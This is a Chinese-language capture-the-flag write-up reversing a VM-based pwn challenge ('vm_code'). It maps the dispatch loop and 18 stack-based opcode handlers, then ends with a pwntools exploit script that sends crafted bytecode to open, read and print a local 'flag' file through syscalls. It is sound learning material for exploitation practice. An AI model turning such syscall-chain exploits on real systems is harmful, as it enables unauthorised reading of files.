



# 前言
比赛那两天偷懒了，两天都只打了半天，到晚上就不想看了。
然后vm_code这题要是有时间的话看一下应该是能做的。赛后自己研究了一下发现还行。
这题主要是想记录一下vm题的逆向过程。
# 逆向过程

## 0x122f
图片中是main函数的后半段，清除rdi，rsi之后直接call +5，就跳转到了`123A`的`lea rax,code`

然后从`code+rsi`的地址取出一个字节放进rax，rsi增加一，rax-0x21之后跳转到1257

先说下这段是什么意思，很明显，rsi是起到rip的作用，`code+rsi`就是运行代码的位置。rax则是起到暂存当前执行代码的功能。

还有就是如果rax<0x21，那么跳转不成立，就会执行ud2指令，导致程序卡死利用失败。
## 0x1257

如果成功跳转到1257后，将rax的值暂存到rcx，然后程序取offset段地址放进rax，然后以[rax+rcx*2]的值为rax的值，加上一个基地址，最后跳转。

在offset段看到，有很多似乎不明意义的数字，不过仔细观察可以发现规律，每个有数据的byte中间都隔了一个`\x00`，也就是和刚刚看到的[rax+rcx*2]对应上了，解释了为什么rcx需要乘以2。

所以总结一下功能，就是根据输入的字节码，在offset段上寻找偏移，最后跳转到`main+209+偏移`的位置。
## 18个可执行函数

刚刚说了可以通过输入字节码让程序在offset段寻址并根据找到的值跳转，在ida里又可以看到有很多带有retn的函数(或者说是小代码块也可以)，猜测offset的值与这些retn的小函数偏移一一对应，验证后果然如此。
接下来就是逐个解析十八个小函数的功能，程序在vm中实现了栈功能，并且没有分配给vm寄存器的内存，所有功能都以栈为基础。实际功能在下面。
到了这一步就挺简单的了，因为程序直接给了push和syscall的功能，只要布置好栈上的值就行了。
```
rdi = sp
rbx = rbp
rsi = rip
```
```
1
pop rsi

2
pop rax;pop rcx;push (rax^rcx)

3
swap([rsp],[rsp-0x10])
4
pop rax,pop rcx,push rcx,push rax

5
push content

6
pop rax,push al

7
pop

8
shr [rsp],0x8

9
pop rax
push rax;push rax

10
shl [rsp],0x8

11
jmp(11,b'\x00')
pop rax;jmp content

12
pop rax;pop rcx;ror rax,cl;push rax

13
pop rax;pop rcx;rol rax,cl;push rax

14
pop rax;pop rcx;and rax,rcx;push rax

15
pop rax
pop rdi
pop rsi
pop rdx
syscall

16
push rsp
17
push rip

18
exit
```
# exp
```
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    log_level="debug",
)

io = process("./pwn")

shcode = b''
shcode +=p8(5+0x21) + b'flag'
shcode +=p8(16+0x21)
shcode +=p8(5+0x21) + p32(0x0)
shcode +=p8(9+0x21)
shcode +=p8(3+0x21)
shcode +=p8(5+0x21) + p32(0x2)
shcode +=p8(15+0x21)

shcode +=p8(16+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(2+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(4+0x21)
shcode +=p8(5+0x21) + p32(0x3)
shcode +=p8(5+0x21) + p32(0)
shcode +=p8(15+0x21)

shcode +=p8(7+0x21)
shcode +=p8(16+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(2+0x21)
shcode +=p8(5+0x21) + p32(0x80)
shcode +=p8(4+0x21)
shcode +=p8(5+0x21) + p32(0x1)
shcode +=p8(5+0x21) + p32(0x1)
shcode +=p8(15+0x21)

io.send(shcode)

io.interactive()
```
